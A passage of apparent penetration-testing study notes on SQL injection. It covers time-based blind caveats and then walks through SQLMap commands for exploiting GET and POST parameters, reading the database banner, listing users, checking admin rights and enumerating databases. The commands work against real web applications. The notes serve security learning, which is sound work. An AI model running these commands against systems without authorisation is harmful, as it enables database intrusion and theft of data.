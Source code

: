 - if the IF clause yields TRUE (thus consuming time).
- you should be careful with the first argument of BENCHMARK(). It may seriously affect the server load


## SQLMap
- Its a open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers.

```
sqlmap -u <URL> -p <injection parameter> [options]
```

// SQLMap need to know the vulnerable URL and the parameter to test For a SQLi.

To exploit the union-based in-band SQLi:
```
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
```

// This tells SQLMap to test the id parameter of the GET request For view.php. Moreover it tells SQLMap to use a UNION based SQL injection technique.

If you have to exploit a POST parameter you have to use:
```
sqlmap -u <URL> --data=<POST string> -p parameter [options]
```

// you can write the POST string by yourself or copy it from a request intercepted with Burp

Another way to use SQLMap is by saving a request intercepted with Burp to a file
```
Burp > Copy to File
sqlmap -r <request file> -p parameter [options]
- you can also copy the POST string from a request intercepted by Burp
```

### Extracting the Database Banner
By using the '--banner' switch you can grab the database banner:
```
sqlmap -u <target> --banner <other options>
```

### Information Gathering
List the users of the database:
```
sqlmap -u <target> --users <others options>
```

Check if the web app database user is a database administrator:
```
sqlmap -u <target> --is-dba <other options>
```

List all available databases:
```
sqlmap -u <target> --dbs <other options>
```
